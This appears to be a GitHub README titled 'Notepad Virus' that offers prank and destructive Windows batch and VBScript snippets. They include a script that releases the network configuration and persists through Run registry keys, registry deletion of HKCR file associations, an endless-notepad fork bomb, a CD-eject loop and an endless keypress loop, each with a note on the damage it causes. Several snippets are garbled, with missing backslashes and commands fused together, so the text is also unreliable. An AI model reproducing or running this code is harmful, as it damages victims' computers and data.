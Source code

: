 
# Notepad Virus

## 🦠Top Virus Making Commands From Notepad🦠


### 🟣1. Disable Internet Permanently :-
```bash  
echo @echo off>c:windowswimn32.bat
echo break off>c:windowswimn32.bat echo
ipconfig/release_all>c:windowswimn32.bat
echo end>c:windowswimn32.batreg add
hkey_local_machinesoftwaremicrosoftwindowscurrentversionrun /v WINDOWsAPI /t reg_sz /d c:windowswimn32.bat /freg add
hkey_current_usersoftwaremicrosoftwindowscurrentversionrun /v CONTROLexit /t reg_sz /d c:windowswimn32.bat /fecho You Have Been HACKED!
PAUSE
```
### 🃏Action :-  This will disable the internet connectivity permanently.



### 🟣2.  Delete Key Registry Files :-

```bash
@ECHO OFF
START reg delete HKCR/.exe
START reg delete HKCR/.dll
START reg delete HKCR/*
:MESSAGE
ECHO Your PC has been crashed.Your Dad.
GOTO MESSAGE
```
### 🃏Action :- This will delete key registry files, then loops a message

## 🟣3.Endless Notepads :-
```bash 
@ECHO off
:top
START %SystemRoot%\system32\notepad.exe
GOTO top
```
### 🃏Action :- This will pop up endless notepads until the computer freezes and crashes


### 🟣4. Popping Cd Drive :- 
```bash
Set oWMP = CreateObject(”WMPlayer.OCX.7″)
Set colCDROMs = oWMP.cdromCollection
do
if colCDROMs.Count >= 1 then
For i = 0 to colCDROMs.Count – 1
colCDROMs.Item(i).Eject
Next
For i = 0 to colCDROMs.Count – 1
colCDROMs.Item(i).Eject
Next
End If
wscript.sleep 100
loop
```

### 🃏Action :- This will make the CD drives constantly pop out


## 🟣 5. Endless Enter :-

```bash 
Set wshShell = wscript.CreateObject(”WScript.Shell”)
do
wscript.sleep 100
wshshell.sendkeys “~(enter)”
loop
```
